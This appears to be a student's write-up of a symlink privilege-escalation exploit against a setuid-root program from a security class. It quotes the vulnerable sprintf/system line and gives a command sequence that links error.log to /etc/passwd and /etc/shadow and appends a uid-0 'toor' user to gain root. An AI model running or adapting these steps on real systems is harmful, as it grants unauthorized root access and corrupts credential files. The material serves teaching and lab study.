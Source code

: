 # Symlink Attack

The following is an interesting exploit I found while working 
on an assignment for my Systems Security class. The assignment was 
a standard buffer overflow on a setuid program. By exploiting the overflow,
a root shell could be gained.

The program was setuid as it needed to read from a root owned file (scores.txt). On
an error, the program would write to file called errors.log.

The program used relative links to these files, and thus we can use symlinks in our
current directory to point these names to other files. The scores.txt could be used
to read from colon-delimited files. This symlink _would_ be useful for reading
from /etc/shadow, but unfortunately, this particular program wouldn't allow 
us to read the second field, only the third and higher (and the password hash
is the second).

Using errors.log, however, we could write to arbitrary files. Just like we could read
from /etc/shadow, we can write to /etc/shadow and /etc/passwd. This will allow us
to create a new user, toor, that has an uid of 0, giving it root privileges!

## The code

The code provided in the download link above is only a part of the assignment; the
class assignments are sometimes removed, so I have removed everything not related to
the current topic.

The line vulnerable to our exploit is the following:

		sprintf(command, "echo \"%s: Invalid user name or SSN: %s,%s\"|cat >> error.log", 
			ctime(&current_time), argv[1], argv[2]);

The program will execute the variable command using system, and the output is appended to the file error.log in the current directory. This is exactly what we need for a symlink attack.

When the program is ran, we will see the following:

		./a.out 1 2
			Invalid user name or SSN.
		cat error.log 
			Sun Oct 29 11:13:10 2017
			: Invalid user name or SSN: 1,2


If we create a symlink in the currect directory named error.log that points to /etc/passwd, we can append to that file. The nice thing about /etc/passwd and /etc/shadow is that they ignore lines that
are not formatted correctly (for our purposes, anyways). Thus, if we enter "\ntoor:hash:..." as our second argument we can create a new user in the system.

## The Exploit

BEFORE RUNNING: This exploit messes with critical files for your computer. I would highly, highly reccomend you do NOT do this on anything other than a virtual machine, and that you take a snapshot. This was tested on two different linux
operating systems, and should work on any Linux machine. Just make sure that the setuid program has been setuid to root.

To exploit the program, use the following commands with the above python script:

		PASS=`python write_user.py p`
		SHADOW=`python write_user.py`
		cd /tmp
		ln -s /etc/passwd error.log 					 
		/root/course_scores/getscore a "$PASS" 
		rm error.log 							
		ln -s /etc/shadow error.log 
		/root/course_scores/getscore a "$SHADOW" 
		su toor

The python script simply prints the line for /etc/shadow; if a p is provided, it prints the line for /etc/passwd.
